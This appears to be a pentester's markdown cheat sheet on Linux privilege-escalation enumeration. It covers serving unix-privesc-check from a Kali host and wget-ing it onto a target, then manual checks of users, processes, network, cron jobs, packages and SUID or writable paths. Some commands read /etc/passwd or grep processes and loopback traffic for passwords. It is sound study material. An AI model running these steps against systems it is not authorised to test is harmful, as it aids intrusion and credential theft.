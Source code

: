 # Linux Enumeration

## Automatic Enumeration

### unix-privesc-check

On Kali host:
```bash
cp /usr/bin/unix-privesc-check/unix-privesc-check .
python3 -m http.server
```
On target machine:
```bash
wget http://<our IP>/unix-privesc-check
```
```bash
chmod +x unix-privesc-check
```
```bash
unix-privesc-check standard > output.txt
```
The `output.txt` file is meaty, and in standard mode it isn't complete, but it's a good start. The most obvious thing to do immediately is:
```bash
cat output.txt | grep -A 10 writable
```
This is just a quick start. Worth going over the file carefully if nothing immediately jumps out.

## Manual Enumeration
For fine grained/specific enumeration items see the glossary below. Hopefully a standard privesc check as detailed above should be sufficient, but in case it isn't.

### Misc.
Get context about the current user:
```bash
id
```
Enumerate users on the machine:
```bash
cat /etc/passwd
```
Enumerate the functional role of the machine:
```bash
hostname
```
OS and system version enumeration:
```bash
uname -a
```
alternatives to the same effect:
```bash
cat /etc/os-release
```
```bash
cat /etc/issue
```
Inspect environment variables:
```bash
env
```
Check the .bashrc:
```bash
cat ~/.bashrc
```

### Processes
List running processes:
```bash
ps aux
```
Search running processes for foolishness:
```bash
watch -n 1 "ps -aux | grep pass"
```

### Networking
TCP/IP information:
```bash
ifconfig a
```
Or if you happen to be prodding at a RHEL or Arch machine for some god forsaken reason:
```bash
ip a
```
Network routing information on Debian based systems:
```bash
routel 
```
or if that fails:
```bash
route
```
To see active network connections:
```bash
ss -ntplu
```
The `iptables` command is unlikely to be available to our peon-tier user by default on account of it being an admin privilege by default. However we may still be able to view some config via:
```bash
cat /etc/iptables/rules.v4
```
Some basic packet capture:
```bash
sudo tcpdump -i lo -A | grep "pass"
```
### Cronjobs
Enumerate cron jobs:
```bash
ls -lah /etc/cron*
```
and the current users scheduled jobs:
```bash
crontab -l
```
Jobs running as root will not appear when querying like this, for that run as root (although its hard to imagine when we might want to do this if we already have root...):
```bash
sudo crontab -l
```
Inspect the cron logs:
```bash
grep "CRON" /var/log/syslog
```

### Packages, Modules & Disks
Packages installed via `dpkg` (Debian package manager):
```bash
dpkg -l
```
List drives mounted at boot time:
```bash
cat /etc/fstab
```
in addition `mount` should tell us everything that's currently mounted:
```bash
mount
```
Available disks:
```bash
lsblk
```
Loaded kernel modules:
```bash
lsmod
```
For more info on a kernel module that we've taken an interest in:
```bash
/sbin/modinfo <intriguing module>
```

### File permissions
```bash
ls -l
```
Find every directory the current user can write to:
```bash
find / -writable -type d 2>/dev/null
```
Find SUID marked binaries:
```bash
find / -perm -u=s -type f 2>/dev/null
```
